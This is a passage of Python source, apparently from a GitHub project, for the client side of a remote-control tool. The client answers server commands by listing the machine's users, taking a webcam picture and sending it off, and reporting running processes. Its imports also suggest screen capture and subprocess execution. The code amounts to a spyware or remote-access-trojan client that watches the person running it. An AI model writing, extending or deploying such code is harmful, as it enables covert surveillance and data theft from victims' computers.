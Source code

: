 ```python
                users = ClientENUM.ClientENUM.get_Users()
                client.send(f'[CLIENT] {socket.gethostbyname(socket.gethostname())}: This machines users are: {users}'.encode('utf-8'))

            elif msg == 'take_pic':
                image = ClientENUM.ClientENUM.capture_webcam()
                if image:
                    ClientENUM.ClientENUM.send_File(client, image)
                    os.remove(image)
                else:
                    client.send("No camera detected")

            elif msg == 'get_Processes':
                processes = ClientENUM.ClientENUM.get_Processes()
                client.send(f'[CLIENT] {socket.gethostbyname(socket.gethostname())}: This machines first 10 running processes are: {processes}'.encode('utf-8'))

            elif msg == ':Disconnect:':
                print(f'[SERVER] Has disconnected you')
                #if disconnect it will disconnect the user
                connected = False
                #setting connected to false to escape the infinite loop
            else:
                client.send(f'{msg}'.encode('utf-8'))
                #if somehow the Server sends an unrecognised command it will send this to the server

    client.close()
    #closing the connection when out of the while loop

    '''
    client_Handler() - purpose of this function is to handle the messages sent between the server and the client. This function will also retrieve requested data from the clients machine
    Args:
        Client - this is the connection between the server and the client
    Returns:
        - Nothing 
    '''


if __name__ == '__main__':
    main(SERVER)
```
## ClientENUM.py
```python
import threading
import socket
import psutil
import os
from datetime import datetime
import cv2
import subprocess
import time
from PIL import ImageGrab

class ClientENUM:



    @staticmethod
    def get_Memory():
        #function that will return total memory of the computer that is running the command
```